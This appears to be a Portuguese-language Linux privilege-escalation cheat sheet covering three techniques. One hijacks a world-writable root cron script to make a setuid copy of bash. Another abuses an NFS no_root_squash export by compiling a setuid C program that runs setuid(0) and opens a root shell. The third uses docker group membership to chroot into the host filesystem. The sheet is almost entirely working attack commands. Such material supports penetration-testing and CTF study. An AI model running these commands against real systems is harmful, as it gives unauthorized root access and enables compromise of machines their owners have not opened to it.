 ```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * * root /usr/local/bin/compress.sh
```

```
$ ls -la /usr/local/bin/compress.sh
```

```
rwx--rw- 1 root staff 14 mar 15 2020 /usr/local/bin/compress.sh
```

###### Criando o arquivo:  
```
$ pico /usr/local/bin/compress.sh
```

```
#!/bin/sh
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```


###### Executando:  
```
$ /tmp/bash -p
```

#### Mount  
> [no_root_squash]  
```
$ cat /etc/exports
```

```
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

```
$ showmount -e $IP-VICTM
```

```
/tmp * 
```

```
$ mkdir /tmp/mountme
$ mount -o rw,vers=2 $IP-VICTM:/tmp /tmp/mountme
$ echo 'int main(){ setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c
$ gcc /tmp/mountme/x.c -o /tmp/mountme/x
$ chmod +s /tmp/mountme/x
```
```
$ cd /tmp
$ ./x

```

#### DOCKER (priv scalation)  
```
$ id
```

```
116(docker)
```

###### Go to https://gtfobins.github.io/  
```
$ docker imagens
$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

